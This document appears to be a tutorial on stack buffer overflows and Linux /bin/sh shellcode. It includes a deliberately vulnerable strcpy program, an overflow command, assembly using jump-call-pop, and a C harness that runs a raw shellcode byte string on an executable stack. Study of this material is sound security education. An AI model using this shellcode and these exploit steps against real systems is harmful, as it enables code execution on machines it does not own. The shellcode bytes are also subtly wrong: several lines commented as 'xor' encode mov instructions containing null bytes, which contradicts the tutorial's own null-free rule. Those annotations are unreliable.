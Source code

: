 # Shellcodes 

## 1. Stack Buffer-overflow Bugs

### Example of Vulnerable Code:

```c
#include <stdio.h>
#include <string.h>

void foo(char *str) {
    char buffer[8];
    strcpy(buffer, str); // vulnerable function!
}

int main(int argc, char **argv) {
    if (argc < 2) return 1;
    foo(argv[1]);
    puts("Everything is fine!");
    return 0;
}
```

#### Buffer Overflow Example:

```bash
./vulnerable $(python -c 'print("A"*14)')
Segmentation fault
```

- **Why?** Overflow overwrites `saved eip`.

---

## 2. Unsafe Libc Functions (Commonly Exploitable):

| Function      | Safer Alternative |
|---------------|-------------------|
| `gets()`      | `fgets()`         |
| `strcpy()`    | `strncpy()`       |
| `strcat()`    | `strncat()`       |
| `sprintf()`   | `snprintf()`      |

---

## 3. Exploitation Process:

**Steps to Exploit a Buffer Overflow:**

1. Control execution flow (overwrite EIP).
2. Inject shellcode (payload).
3. Use NOP-sled (`0x90`) to improve reliability.

#### Classic Stack Layout:

```
[Buffer | NOP-sled | Shellcode | saved ebp | saved eip]
```

---

## 4. Shellcode Basics

**Definition**: Small pieces of code injected into memory to execute arbitrary commands or control the compromised system.

### Important Properties:

- **Small**: To fit into buffer overflow limits.
- **Position-Independent Code (PIC)**: Must not rely on absolute memory addresses.

---

## 5. Shellcode Taxonomy

### Context:
- **Local**: Exploited locally.
- **Remote**: Exploited remotely.

### Purpose:
- **Shell spawning**
- **Socket binding**
- **File writing**

### Operation Mode:
- Single-staged
- Multi-staged
- Egg-hunt
- Download & Execute

### Encoding:
- Null-free, newline-free
- Alphanumeric
- Encrypted

---

## 6. How to Build a Shellcode:

### Step-by-Step:

1. **Plan logic in C**  
   - Clearly outline desired operations.

2. **Translate to Assembly**  
   - Use syscalls directly.

3. **Ensure Position Independence**  
   - No hardcoded addresses; use relative addressing techniques.

4. **Convert to Opcodes**  
   - Assemble to machine code.

5. **Remove Forbidden Characters**  
   - Avoid null bytes (`0x00`) and other control characters.

---

## 7. Practical Example: Spawning a Shell (`/bin/sh`)

### C Logic:

```c
#include <unistd.h>
int main() {
    char *shell = "/bin/sh";
    execve(shell, NULL, NULL);
    return 0;
}
```

### Assembly Translation:

```assembly
_start:
    xor %edx, %edx
    xor %ecx, %ecx
    mov $shell, %ebx
    mov $0xb, %eax
    int $0x80       ; execve syscall
    xor %ebx, %ebx
    mov $0x1, %eax
    int $0x80       ; exit syscall
shell:
    .string "/bin/sh"
```

### Ensuring Position Independence (Jump-Call-Pop):

```assembly
_start:
    jmp short string
return:
    pop ebx
    xor eax, eax
    mov al, 0xb
    xor ecx, ecx
    xor edx, edx
    int 0x80

string:
    call return
    .string "/bin/sh"
```

### Getting Shellcode Opcodes:

Use:
```bash
objdump -d shell
```

or compile as binary:
```bash
as --32 -o shell.o shell.s
ld --oformat binary -m elf_i386 -o shell shell.o
xxd shell
```

---

## 8. Running Shellcode from C

Stack must be executable:

```c
#include <stdlib.h>

int main() {
    char shellcode[] =
        "\xeb\x1e"         // jmp forward
        "\x5b"             // pop ebx
        "\xba\x00\x00\x00\x00" // xor edx, edx
        "\xb9\x00\x00\x00\x00" // xor ecx, ecx
        "\xb8\x0b\x00\x00\x00" // mov 11, eax (execve)
        "\xcd\x80"         // int 0x80
        "\xbb\x00\x00\x00\x00" // xor ebx, ebx
        "\xb8\x01\x00\x00\x00" // mov 1, eax (exit)
        "\xcd\x80"         // int 0x80
        "\xe8\xdd\xff\xff\xff" // call backwards
        "/bin/sh";

    (*(void(*)()) shellcode)();

    return EXIT_SUCCESS;
}
```

Compile with executable stack:
```bash
gcc -m32 -zexecstack -o shell shell.c
```

